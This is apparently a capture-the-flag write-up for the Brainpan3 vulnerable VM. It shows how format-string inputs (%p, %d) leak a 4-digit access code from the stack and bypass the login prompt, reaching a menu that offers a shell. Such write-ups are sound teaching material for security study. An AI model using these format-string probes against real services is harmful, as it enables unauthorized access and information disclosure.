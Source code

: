 Our first image of Brainpan3 is shown below:

```
  __ )    _ \      \    _ _|   \  |   _ \    \      \  |     _ _| _ _| _ _|
  __ \   |   |    _ \     |     \ |  |   |  _ \      \ |       |    |    | 
  |   |  __ <    ___ \    |   |\  |  ___/  ___ \   |\  |       |    |    | 
 ____/  _| \_\ _/    _\ ___| _| \_| _|   _/    _\ _| \_|     ___| ___| ___|

                                                            by superkojiman




AUTHORIZED PERSONNEL ONLY
PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS

ACCESS CODE: 
```

Even though the text says `A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS`, the initial thought was, "Oh cool, 4 digits, Go Go Gadget Brute Force!". Turns out, the text wasn't lieing. The number definitely did change after 3 attempts. To Plan B (and for less than $40)!

Given a login prompt, we could try to overflow the input buffer in an attempt for a stack overflow. The problem with this approach would be that we don't have the binary to do analysis after the overflow. After a nice, hot shower (where all the CTF solutions are generated), the exploitation vector that makes the most sense is looking at format strings.

Let's give some format strings a go!

```
ACCESS CODE: %x.%x.%x.%x.%x.
ERROR #4: WHAT IS THIS, AMATEUR HOUR?
```

Herm.. are they filtering on `%x`? Let's try a different format string.

```
ACCESS CODE: %p.%p.%p.%p.
ERROR #1: INVALID ACCESS CODE: 0xbfcf8b1c.(nil).0x2691.0xbfcf8b1c.
```

Bingo! So we now know that this input is vulnerable to malicious format strings. Since we are looking for a 4 digit access code, we can assume it is probably stored on the stack. Let's try to use `%d`.

```
ACCESS CODE: %d.%d.%d.%d.%d.%d.
ERROR #1: INVALID ACCESS CODE: -1076917476.0.6970.-1076917476.0.10.
```

Ah! What is in the third slot here: `6970`. Let's try that access code:

```
ACCESS CODE: 6970

--------------------------------------------------------------
SESSION: ID-6439
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
  --------------------------------------------------------------


  1  - CREATE REPORT
  2  - VIEW CODE REPOSITORY
  3  - UPDATE SESSION NAME
  4  - SHELL
  5  - LOG OFF

  ENTER COMMAND: 
```